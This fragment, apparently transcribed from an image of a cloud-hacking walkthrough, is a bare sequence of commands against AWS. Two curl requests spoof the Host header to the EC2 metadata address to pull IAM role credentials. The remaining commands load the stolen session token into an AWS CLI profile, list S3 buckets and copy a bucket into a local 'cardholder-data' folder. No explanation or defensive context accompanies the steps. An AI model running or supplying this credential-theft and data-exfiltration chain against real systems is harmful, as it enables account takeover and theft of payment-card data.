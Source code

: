 `curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`
​
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`
​
`aws configure --profile erratic`
​
`aws_session_token = <session-token>`
​
`aws s3 ls --profile erratic`
​
`aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic`